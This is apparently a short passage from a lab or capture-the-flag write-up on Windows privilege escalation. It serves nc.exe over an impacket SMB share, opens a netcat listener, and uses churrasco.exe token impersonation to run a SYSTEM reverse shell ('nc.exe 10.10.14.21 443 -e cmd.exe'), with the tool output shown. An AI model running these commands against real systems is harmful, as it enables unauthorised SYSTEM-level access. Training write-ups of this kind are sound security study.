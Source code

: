 ```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Use rlwrap right now to receive only the shell

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
```

```bash
copy "\\10.10.14.21\smbFolder\nc.exe"
copy "\\10.10.14.21\smbFolder\nc.exe"
        1 file(s) copied.

dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FDCB-B9EF

 Directory of C:\WINDOWS\Temp

01/13/2023  12:53 AM    <DIR>          .
01/13/2023  12:53 AM    <DIR>          ..
01/12/2023  10:24 PM            31,232 churrasco.exe
01/12/2023  10:37 PM            28,160 nc.exe
02/18/2007  02:00 PM            22,752 UPD55.tmp
12/24/2017  07:19 PM    <DIR>          vmware-SYSTEM
01/12/2023  11:58 PM            22,554 vmware-vmsvc.log
09/16/2021  12:15 PM             5,826 vmware-vmusr.log
01/13/2023  12:01 AM               637 vmware-vmvss.log
               6 File(s)        111,161 bytes
               3 Dir(s)   1,317,425,152 bytes free

C:\WINDOWS\Temp>
```

Exucute this

```bash
churrasco.exe -d "C:\WINDOWS\TEMP\nc.exe 10.10.14.21 443 -e cmd.exe"
churrasco.exe -d "C:\WINDOWS\TEMP\nc.exe 10.10.14.21 443 -e cmd.exe"
No
No
/churrasco/-->Current User: SYSTEM 
/churrasco/-->Process is not running under NETWORK SERVICE account!
/churrasco/-->Getting NETWORK SERVICE token ...
/churrasco/-->Found NETWORK SERVICE token 0x6c4
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 672 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 680 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 688 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x674
/churrasco/-->Getting SYSTEM token from Rpcss Service...
```